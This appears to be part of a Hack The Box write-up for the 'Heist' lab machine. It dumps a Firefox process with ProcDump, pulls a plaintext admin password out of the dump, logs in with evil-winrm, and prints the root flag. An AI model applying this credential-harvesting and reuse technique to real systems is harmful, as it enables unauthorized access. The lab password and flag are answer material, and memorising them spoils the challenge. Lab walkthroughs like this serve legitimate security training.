 ## Get dump
```
./procdump.exe -ma 6652 -accepteula

ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[07:06:35] Dump 1 initiated: C:\Users\Chase\Desktop\firefox.exe_230207_070635.dmp
[07:06:35] Dump 1 writing: Estimated dump file size is 551 MB.
[07:06:37] Dump 1 complete: 551 MB written in 1.5 seconds
[07:06:37] Dump count reached.
```



## Firefox
CPU usage is high

cat firefox.exe_230207_070635.dmp | sls "login_password"

![[Pasted image 20230207105129.png]]

```
FirefoxMOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=ååååà)Û‚ühÙW!
```

password 4dD!5}x/re8]FBuZ

```
echo -n '4dD!5}x/re8]FBuZ' | sha256sum                           
91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040  -
```

## Login as Administrator

```
evil-winrm -i heist.htb -u Administrator -p '4dD!5}x/re8]FBuZ'
```
  

## Root flag
in desktop
```
cat root.txt
56016a5de1bd8ebd1d4f95798590d3f1
```